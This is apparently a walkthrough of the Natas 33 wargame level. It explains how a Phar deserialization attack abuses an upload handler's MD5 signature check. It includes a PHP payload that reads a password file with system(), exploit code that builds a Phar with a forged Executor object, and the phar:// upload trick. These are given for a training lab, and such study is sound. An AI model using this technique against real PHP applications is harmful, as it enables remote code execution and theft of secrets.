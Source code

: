 I noticed from this code multiple things:

1. The destruct function checks if the file's MD5 hash matches with the provided signature using `md5_file()`. Weirdly, the signature is provided inside the class as a private variable.

2. If the hashes match, it will run the PHP file. So it expects a PHP file to be uploaded.

3. All files end up in the same directory.

4. The file can't be uploaded if its bigger than 4096 bytes. so it seems like hash collision isn't an option.

One thing of interest is the above `_destruct` function. Apparantly this function allows for a Phar (PHP archive) deserialization attack, by uploading a Phar file that also contains an `Executor` object. Then the `_destruct` function can run on our own object, which will allow our PHP file to be ran. 

First thing to do was make a new PHP file `pass.php`, that only has the line to read the password: `<?php system('cat /etc/natas_webpass/natas34'); ?>` Upload it to the website with the same name.

Then, make another PHP file (name is unimportant) with the following code:

```php
<?php
    class Executor {
	    private $filename = "pass.php"; 
        private $signature = True;
        private $init = false;
    }

	$phar = new Phar("pass_archive.phar");
	$phar->startBuffering();
	$phar->addFromString("test.txt", 'test');
	$phar->setStub("<?php __HALT_COMPILER(); ?>");

    $o = new Executor();
	$phar->setMetadata($o);
	$phar->stopBuffering();
?>
```

The `Executor` class is the same class as from the source code, but the filename is `pass.php`, and the signature is just a `True` value so that it passes the signature check. It then makes a new `Phar` object with the file name `pass_archive.phar`. After that is just code that I [took from here](https://book.hacktricks.xyz/pentesting-web/file-inclusion/phar-deserialization).

Run it, and it should generate the new phar file `pass_archive.phar` for you. Upload it to the website with the same name.

> If you get an error when running, you may need to edit your php.ini file so that it allows phar file editing. Find the location by doing `php --ini`, then search for `phar.readonly = On`. Uncomment the line and set it to `phar.readonly = Off`.

Once the two files are uploaded. upload `pass_archive.phar` again. This time, set the filename to `phar://pass_archive.phar`. Uploading this will force the website to actually parse the phar file, and then run the php file to get our password.
